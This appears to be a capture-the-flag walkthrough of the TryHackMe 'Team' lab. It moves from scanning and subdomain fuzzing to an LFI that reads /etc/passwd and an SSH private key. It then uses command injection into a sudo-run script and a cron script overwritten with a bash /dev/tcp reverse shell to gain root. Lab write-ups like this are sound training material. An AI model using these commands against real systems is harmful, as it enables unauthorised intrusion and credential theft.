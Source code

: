 ## Target IP: `10.10.192.0`

---

### Environment Setup

```bash
export IP=10.10.192.0
export LIP=10.6.24.56
```

---

### Nmap Scan

```bash
sudo nmap -sC -sV -T4 -O $IP -oN nmap_scan.txt
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 21 | FTP | vsftpd 3.0.3 |
| 22 | SSH | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80 | HTTP | Apache httpd 2.4.29 |

---

### Web Enumeration

```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt -x php
nikto -h http://$IP
```

- Gobuster returns nothing.
- Apache default page, but HTML source reveals:

```html
<title>Apache2 Ubuntu Default Page: It works! If you see this add 'team.thm' to your hosts!</title>
```

- Added `team.thm` to `/etc/hosts`, visited `http://team.thm` → Custom team site landing page.

```
"Welcome to our Teams site! This is a place to write Blogs,Guides and anything you like!"
```

---

### Gobuster on `team.thm`

```bash
gobuster dir -u http://team.thm -w /usr/share/wordlists/dirb/common.txt -x php
```

**Findings:**

- `/assets` → Forbidden
- `/images` → Lists `avatar.jpg`, `bg.jpg`, `fulls/`, `thumbs/`
- `/robots.txt` → Contains: `dale`
- `/scripts` → Forbidden

Tried brute-forcing SSH for `dale`, nothing.

---

### DNS Subdomain Brute Force

```bash
wfuzz -c --hw 977 -u http://team.thm -H "Host: FUZZ.team.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

- Found: `dev.team.thm` → Add to `/etc/hosts`

---

### Dev Subdomain

- Visited `http://dev.team.thm`

```
Site is being built
Place holder link to team share
```

Intercepted with Burp, spotted LFI:

```
GET /script.php?page=teamshare.php
```

Tried:

```bash
curl 'http://dev.team.thm/script.php?page=/etc/passwd'
```

**Confirmed LFI**

Extracted usernames from `/etc/passwd`:

```
dale
gyles
ftpuser
```

---

### FTP Brute Force

```bash
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt $IP ftp
```

No valid login.

---

### LFI Enumeration with FFUF

Validated response sizes:

```bash
curl -i 'http://dev.team.thm/script.php?page=/etc/passwd'  # Content-Length: 1698
curl -i 'http://dev.team.thm/script.php?page=asdf'         # Content-Length: 1
```

Then ran:

```bash
ffuf -u 'http://dev.team.thm/script.php?page=FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 1
```

**Interesting Finds:**

- `/etc/ssh/ssh_config` → Noisy but nothing useful
- `/etc/ssh/sshd_config` → Embedded private RSA key

Saved key, removed `#` comments via `vim`:

```
:%s/^#//
```

Set perms:

```bash
chmod 600 rsa_id
```

SSH into target:

```bash
ssh -i rsa_id dale@$IP
```

---

### User Flag

```bash
cat user.txt
```
- Flag: `[REDACTED]`
---

### Sudo Permissions

```bash
sudo -l

```

```
(dale) NOPASSWD: /home/gyles/admin_checks
```

---

### FTPUser Message

Checked `/home/ftpuser`, found message:

```
.dev contains new PHP site.
Team policy: copy your id_rsa to the config file.
```

---

### Privilege Escalation - Gyles

Inspected `/home/gyles/admin_checks`:

```bash
sudo -u gyles /home/gyles/admin_checks
```

Script:

```bash
#!/bin/bash
...
read -p "Enter name of person backing up the data: " name
echo $name >> /var/stats/stats.txt
...
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null
...
```

Supplied `/bin/bash` to all inputs and got shell as `gyles`.

---

### PrivEsc via Writable Script

Checked `.bash_history` in `/home/gyles`, found reference to:

```bash
/var/backups/main_backup.sh
```

Located actual script:

```bash
find / -name main_backup.sh
→ /usr/local/bin/main_backup.sh
```

Permissions showed it was writable by `admin` group. Checked user group:

```bash
groups
→ gyles is in admin
```

Injected reverse shell:

```bash
echo 'bash -i >& /dev/tcp/10.6.24.56/8080 0>&1' > /usr/local/bin/main_backup.sh
```

Listener:

```bash
nc -lvnp 8080
```

Executed:

```bash
./main_backup.sh
```

---

### Root Access

```bash
whoami
→ root

cat /root/root.txt
→ THM{[REDACTED]}
```

